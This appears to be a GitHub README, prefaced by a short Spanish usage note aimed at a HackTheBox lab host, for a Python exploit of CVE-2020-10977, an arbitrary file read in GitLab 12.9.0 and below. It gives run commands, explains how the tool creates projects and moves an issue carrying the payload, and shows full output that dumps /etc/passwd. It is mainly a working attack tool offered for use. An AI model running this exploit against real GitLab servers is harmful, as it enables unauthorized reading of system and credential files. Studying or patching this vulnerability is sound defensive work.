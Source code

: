 #cve_2020_10977

```
Se tiene que crear un usuario y una contraseña para que funcione
python3 cve_2020_10977.py https://git.laboratory.htb C4yyyy C4yyyyC4yyyy
				(url)		     (user) (password)
```





# CVE-2020-10977

## GitLab 12.9.0 Arbitrary File Read

**Target :** 12.9.0 and below

**Tested :** GitLab 12.8.1

In a recent engagement I found a GitLab instance on the target, I found a PoC on Exploit-DB but it uses LDAP for authentication and it was disabled in this case, so I created this python script which can authenticate using web GUI, like the original PoC it will create two projects, an issue in one of the projects with the malicious payload and it will move this issue from one project to another and will automatically read the file contents.

I have added few things such as the script will ask for an absolute path you wish to read, after printing its contents it will ask for another path and cleanup on exit, both projects will be automatically deleted when you exit the script using `CTRL+C`

```
$ python3 cve_2020_10977.py http://localhost twh p4ssw0rd
----------------------------------
--- CVE-2020-10977 ---------------
--- GitLab Arbitrary File Read ---
--- 12.9.0 & Below ---------------
----------------------------------

[>] Found By : vakzz       [ https://hackerone.com/reports/827052 ]
[>] PoC By   : thewhiteh4t [ https://twitter.com/thewhiteh4t      ]

[+] Target        : http://localhost
[+] Username      : twh
[+] Password      : p4ssw0rd
[+] Project Names : ProjectOne, ProjectTwo

[!] Trying to Login...
[+] Login Successful!
[!] Creating ProjectOne...
[+] ProjectOne Created Successfully!
[!] Creating ProjectTwo...
[+] ProjectTwo Created Successfully!
[>] Absolute Path to File : /etc/passwd
[!] Creating an Issue...
[+] Issue Created Successfully!
[!] Moving Issue...
[+] Issue Moved Successfully!
[+] File URL : http://localhost/twh/ProjectTwo/uploads/5f74b01d2b58e4a57ca55e1ac8778650/passwd

> /etc/passwd
----------------------------------------

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
.
.
.
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
.
.
.
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

----------------------------------------

[>] Absolute Path to File : ^C
[-] Keyboard Interrupt
[!] Deleting ProjectOne...
[+] ProjectOne Successfully Deleted!
[!] Deleting ProjectTwo...
[+] ProjectTwo Successfully Deleted!
```

## Dependencies

```
pip3 install requests bs4
```


## Usage

Register an account on target GitLab and use the same credentials with the script

```
$ python3 cve_2020_10977.py -h
usage: cve_2020_10977.py [-h] url username password

positional arguments:
  url         Target URL with http(s)://
  username    GitLab Username
  password    GitLab Password

optional arguments:
  -h, --help  show this help message and exit
```

## Credits

* Thank you `vakzz` for finding this bug in GitLab
	* HackerOne Report : https://hackerone.com/reports/827052
* Thank you `KouroshRZ` for creating a PoC for this exploit
	* Exploit-DB : https://www.exploit-db.com/exploits/48431
